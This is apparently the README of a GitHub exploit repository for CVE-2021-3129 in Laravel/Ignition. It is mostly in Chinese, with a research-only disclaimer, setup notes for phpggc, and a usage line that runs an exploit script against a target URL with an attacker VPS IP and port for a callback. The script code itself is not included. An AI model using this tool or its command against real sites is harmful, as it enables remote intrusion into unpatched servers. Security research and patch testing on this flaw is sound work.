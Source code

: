 # CVE-2021-3129

影响范围  Laravel <= 8.4.2. Ignition <2.5.2

**仅供测试与研究使用**

**仅供测试与研究使用**

**仅供测试与研究使用**

# Environment

注意必须放在[phpggc](https://github.com/ambionics/phpggc)的目录下运行,且要有php-cli环境

# Usage
`python3 exp.py url vps_ip vps_port`

# Vulnerability analysis

https://ccdragon.cc/?p=2829

# Advantage

- 使用poc进行探测是否修复
- 优化了一小部分编码方式
